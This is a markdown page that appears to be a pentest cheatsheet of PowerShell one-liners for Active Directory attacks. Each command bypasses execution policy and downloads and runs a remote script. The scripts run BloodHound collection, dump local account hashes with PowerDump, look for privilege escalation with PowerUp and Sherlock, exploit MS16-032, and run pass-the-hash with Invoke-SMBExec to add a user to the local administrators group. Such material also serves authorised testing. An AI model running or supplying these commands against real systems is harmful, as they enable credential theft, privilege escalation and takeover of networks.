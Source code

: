 ```yaml
---
title: Powershell One-Liners
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Active Directory, Pentest Cheatsheet]
pin: true
comments: false
---
```


#PowerShell One-Liners

Bloodhound : Using ingestors to collect the data and then send it to BloodHound.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound"
```

PowerDump : Dump all local accounts.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1');Invoke-PowerDump"
```

PowerUp : Check for privilege escalation.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks"
```

Sherlock : An old tool to find vulnerabilities on the host. Can be still interesting.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Find-AllVulns"
```

To exploit one of those vulnerabilities via Sherlock, for example MS16-032 :

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Invoke-MS16-032"
```

Invoke-SMBExec : Remote command execution by using a hash :
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://github.com/Kevin-Robertson/Invoke-TheHash/raw/master/Invoke-SMBExec.ps1’);"
Invoke-SMBExec -hash HASH -Target HOSTNAME -Domain DOMAIN -Username USERNAME -Command “net localgroup Administrateurs USERNAME /ADD” -verbose
```
